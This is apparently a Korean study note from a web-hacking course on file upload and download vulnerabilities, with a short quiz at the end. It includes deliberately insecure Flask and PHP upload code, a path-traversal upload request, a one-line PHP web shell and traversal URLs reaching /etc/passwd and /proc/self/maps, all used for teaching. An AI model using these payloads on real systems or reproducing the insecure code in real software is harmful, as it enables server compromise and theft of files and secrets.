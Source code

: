 # File Upload Vulnerability  
File Upload Vulnerability : **공격자의 파일**을 웹 서비스의 파일 시스템에 **업로드하는 과정에서 발생**하는 보안 취약점입니다. 이용자가 업로드될 **파일의 이름을 임의로 정할 수** 있을 때 발생합니다.  
## Path Traversal  
Path Traversal : 서비스에서 **특정 디렉터리에만 업로드를 허용하는 제약을 우회**해서, **임의 디렉터리에 파일을 업로드**할 수 있는 취약점  
```python
from flask import Flask, request
app = Flask(__name__)
@app.route('/fileUpload', methods = ['GET', 'POST'])
def upload_file():
	if request.method == 'POST':
		f = request.files['file']
		f.save("./uploads/" + f.filename)
		return 'Upload Success'
	else:
		return """
		<form action="/fileUpload" method="POST" enctype="multipart/form-data">
			<input type="file" name="file" />
			<input type="submit"/>
		</form>
		"""
if __name__ == '__main__':
	app.run()
```
위 코드에서 POST 요청을 받으면, 전송받은 파일을 uploads에 이름은 filename 그대로 저장하기 때문에, 여기서 **../** 와 같은 상위 디렉터리를 의미하는 메타문자를 사용하면, uploads 의 상위 디렉터리로 접근할 수 있습니다.  
## 정상적인 파일 요청  
```shell
POST /fileUpload HTTP/1.1
Host: storage.dreamhack.io
Origin: https://storage.dreamhack.io
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary20y3eoLVSNf9Ns5i
------WebKitFormBoundary20y3eoLVSNf9Ns5i
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain
upload test !
------WebKitFormBoundary20y3eoLVSNf9Ns5i--
```
파일을 정상적으로 업로드하면, 위와 같은 HTTP request 가 전송됩니다.  
```shell
$ ls -lR
-rw-r--r--  1 dreamhack  staff  461  1 30 21:52 app.py
drwxr-xr-x  3 dreamhack  staff   96  1 30 21:31 uploads
./uploads:
total 8
-rw-r--r--  1 dreamhack  staff   13  1 30 21:31 test.txt
```
다음과 같이 test.txt 파일이 uploads 디렉터리 안에 있는 것을 확인할 수 있습니다.  

## 악의적인 파일 요청  
```shell
POST /fileUpload HTTP/1.1
Host: storage.dreamhack.io
Origin: https://storage.dreamhack.io
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary20y3eoLVSNf9Ns5i
------WebKitFormBoundary20y3eoLVSNf9Ns5i
Content-Disposition: form-data; name="file"; filename="../hack.py"
Content-Type: text/plain
[malicious file content]
------WebKitFormBoundary20y3eoLVSNf9Ns5i--
```
여기서는 파일 이름을 ../hack.py 라고 적어서, uploads 의 상위 디렉터리로 접근할 수 있게 했습니다.  
```shell
$ ls -lR
-rw-r--r--  1 dreamhack  staff  461  1 30 21:52 app.py
-rw-r--r--  1 dreamhack  staff  431  1 30 22:12 hack.py
drwxr-xr-x  3 dreamhack  staff   96  1 30 21:31 uploads
./uploads:
total 8
-rw-r--r--  1 dreamhack  staff   13  1 30 21:31 test.txt
```
지금 이 경우를 보면, hack.py가 uploads 에 있는게 아니라, 상위 디렉터리에 있는 것을 알 수 있습니다.  
## 악성 파일 업로드  
악성 파일 업로드 취약점 : 이용자가 **파일을 업로드**할 때, 이를 제대로 **검사하지 않아서 발생**하는 취약점  
### 웹 셸  
웹 서버는 **.php, .jsp, .asp**와 같은 확장자의 파일을 **Common Gateway Interface(CGI)로 실행**하고, 그 결과를 이용자에게 반환합니다.  
```
<FilesMatch ".+\.ph(p[3457]?|t|tml)$">
    SetHandler application/x-httpd-php
</FilesMatch>
```
위는 이용자가 요청한 파일의 확장자가 정규표현식 **".+\.ph(p[3457]?|t|tml)$"** 를 만족하면, x-httpd-php로 핸들링하게 하는 Apache 설정 파일입니다.  
### 악의적인 웹 리소스  
공격자가 서버에 **exploit.html을 업로드**하고, 이에 접근하는 URL이 **https://dreamhack.io/uploads/exploit.html** 이라면, 브라우저는 이를 **HTML로 해석**  
-> 이 때, **exploit.html 파일에 악성 스크립트**가 있다면, **XSS 공격**으로 이어질 수 있다.
## 악성 파일 업로드 실습  
```php
<?php
if(!empty($_FILES['file'])){
  $filename = "user_uploaded_file_".time();
  $ext = pathinfo($_FILES['file']['name'], PATHINFO_EXTENSION);
  $path = "./uploads/" . $filename . "." . $ext;
  
  if(move_uploaded_file($_FILES['file']['tmp_name'], $path)) {
    return true; // upload success
  } else {
    return false; // upload fail
  }
}
?>
```
여기서는 파일 이름을 **임의의 파일명 + "." + 확장자**으로 생성해서, Path Traversal 은 불가능하지만, 확장자를 검사하지 않는다.  
-> php나 html 파일을 업로드해서 악성 스크립트 발생 가능!!  
<img src="1.jpg"> <img src="2.jpg">  
다음과 같이 html 파일을 업로드 하면, 스크립트가 발생하는 것을 알 수 있습니다.  
```php
<?php
  system("ls");
  system($_GET[x]);
?>
```
html 파일 말고, 다음과 같이 php 파일을 사용할 수 있다.
# File Download Vulnerability  
## 파일 다운로드 취약점  
File Download Vulnerability : 웹 서비스를 통해 서버의 파일 시스템에 존재하는 **파일을 내려 받는 과정에서 발생**하는 보안 취약점이며, 이용자가 **다운로드할 파일의 이름을 임의로 정할 수** 있을 때 발생합니다.  
Path Traversal을 이용한 파일 다운로드 취약점 : **파일 이름을 직접 입력 받아** 임의 디렉터리에 있는 파일을 다운로드 받을 수 있는 취약점  
예시  
```
https://vulnerable-web.dreamhack.io/download/?filename=notes.txt  
https://vulnerable-web.dreamhack.io/download/?filename=../../../../../../etc/passwd  
https://vulnerable-web.dreamhack.io/images.php?fn=6ed0dd02806fa89e233b84f4.png  
```

## 파일 다운로드 취약점 실습  
```python
# ...
Secret = os.environ("Secret")
# ...
@app.route("/download")
def download():
    filename = request.args.get("filename")
    content = open("./uploads/" + filename, "rb").read()
    return content
# ...
```
환경 변수로부터 가지고 오는 Secret 값을 파일 다운로드 취약점을 이용해 획득하는 실습입니다.  
<img src="3.jpg">  
다음과 같이 Path Traversal 을 통해 취약점을 찾을 수 있습니다.  
# 퀴즈  
1. 파일 다운로드 취약점(File Download Vulnerability)의 설명으로 올바른 것은?  
답 : 웹 서비스를 통해 서버의 파일 시스템에 존재하는 파일을 내려 받는 과정에서 발생하는 보안 취약점이며, 이용자가 다운로드할 파일의 이름을 임의로 정할 수 있을 때 발생합니다.
2. 파일 다운로드 취약점이 발생하는 코드이다, "filename" 인자에 어떠한 값을 넣어야 현재 실행중인 프로세스의 메모리 정보를 볼 수 있는가?
```python
@app.route("/download")
def download():
    filename = request.args.get("filename")
    content = open("/data/uploads/" + filename, "rb").read()
    return content
```
답 : ../../proc/self/maps, ../../../proc/self/maps  
3. php 확장자를 가진 파일이 정상적으로 php 스크립트 엔진에 실행되고자 한다. (A)와 (B)에 들어갈 말로 올바른 것은?  
```php
<FilesMatch ".+\.ph(p[3457]?|t|tml)$">
    (A) (B)
</FilesMatch>
```
답 : SetHandler, application/x-httpd-php  
4. 악성 파일 업로드를 통해 할 수 있는 행위를 모두 고르시오  
답 : Cookie Hijacking, Remote Code Execution, Cross Site Scripting, Cross Site Request Forgery(전부 다)  

    
